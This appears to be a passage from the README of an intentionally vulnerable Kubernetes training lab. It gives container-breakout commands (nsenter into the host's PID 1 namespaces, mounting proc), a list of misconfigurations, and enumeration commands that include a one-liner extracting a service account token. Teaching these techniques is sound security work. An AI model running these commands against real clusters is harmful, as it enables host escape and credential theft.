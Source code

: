 ### Container Breakout
```bash
# Check capabilities
capsh --print

# Mount host filesystem
mount -t proc none /mnt/proc
cat /mnt/proc/sysrq-trigger

# Access host network namespace
nsenter --target 1 --mount --uts --ipc --net --pid
```

## Common Vulnerabilities

1. **Default Service Account**: Overly permissive default SA
2. **No Pod Security Policies**: Allows privileged containers
3. **No Network Policies**: Unrestricted pod-to-pod communication
4. **Exposed APIs**: Kubelet, API server without auth
5. **Secret Management**: Hardcoded secrets in images/configs
6. **No Resource Limits**: DoS attacks possible
7. **No Admission Controllers**: No validation of deployments

## Security Best Practices (Missing)

- ❌ Pod Security Standards/Policies
- ❌ Network Policies
- ❌ RBAC with least privilege
- ❌ Admission Controllers (OPA, Falco)
- ❌ Secret encryption at rest
- ❌ Audit logging
- ❌ Container image scanning
- ❌ Runtime protection

## Learning Objectives
- Understanding Kubernetes attack surface
- Common misconfigurations
- Container escape techniques
- Lateral movement in clusters
- Kubernetes hardening

## Useful Commands

```bash
# Enumerate cluster
kubectl get all -A
kubectl describe nodes
kubectl get clusterroles
kubectl get clusterrolebindings

# Check your permissions
kubectl auth can-i create pods --all-namespaces
kubectl auth can-i get secrets --all-namespaces

# Get service account info
kubectl get sa -A
kubectl get secret $(kubectl get sa default -o jsonpath='{.secrets[0].name}') -o jsonpath='{.data.token}' | base64 -d
```
